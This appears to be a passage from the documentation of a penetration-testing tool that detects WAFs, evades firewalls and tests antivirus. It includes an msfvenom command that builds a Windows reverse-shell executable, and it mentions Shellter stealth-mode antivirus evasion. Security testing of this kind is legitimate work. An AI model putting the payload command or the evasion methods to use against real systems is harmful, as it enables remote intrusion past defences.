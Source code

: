 ### External Tool Integration:
- **nmap**: Primary firewall detection and evasion testing tool
- **msfvenom**: Payload generation for AV testing
- **requests**: HTTP library for WAF detection
- **Tool Detection**: Automatic availability checking with user guidance

### Error Handling:
- Tool availability checking prevents execution failures
- HTTP request timeout handling (10s default)
- nmap scan timeout management (30s default)
- Detailed error messages for troubleshooting

### Performance:
- Non-blocking threaded execution
- Configurable timeouts for different operations
- Efficient HTTP request handling
- Memory-conscious result processing

## Security Assessment Capabilities

### WAF Assessment:
- **Bypass Testing**: Identifies potential WAF bypass opportunities
- **Vendor Identification**: Determines specific WAF implementation
- **Rule Effectiveness**: Tests WAF rule coverage and effectiveness
- **False Positive Analysis**: Identifies overly restrictive WAF configurations

### Firewall Assessment:
- **Port Filtering Analysis**: Identifies blocked vs allowed ports
- **Stateful Inspection**: Tests firewall state tracking capabilities
- **Evasion Effectiveness**: Measures firewall bypass success rates
- **Configuration Weaknesses**: Identifies potential firewall misconfigurations

### AV Testing:
- **Detection Rate Analysis**: Tests AV solution effectiveness
- **Evasion Techniques**: Provides methods for AV bypass testing
- **Payload Customization**: Allows for tailored AV testing scenarios
- **Signature Analysis**: Helps understand AV detection mechanisms

## Compliance with Specifications

The implementation follows the original specifications:

### From `10 - AV Detection Methods.md`:
- ✅ msfvenom payload generation: `msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x LPORT=xxx -f exe > binary.exe`
- ✅ VirusTotal integration for AV testing
- ✅ Shellter automation with Auto mode, Stealth Mode, and payload selection
- ✅ Signature-based, Heuristic-based, Behavior-based, and ML detection awareness
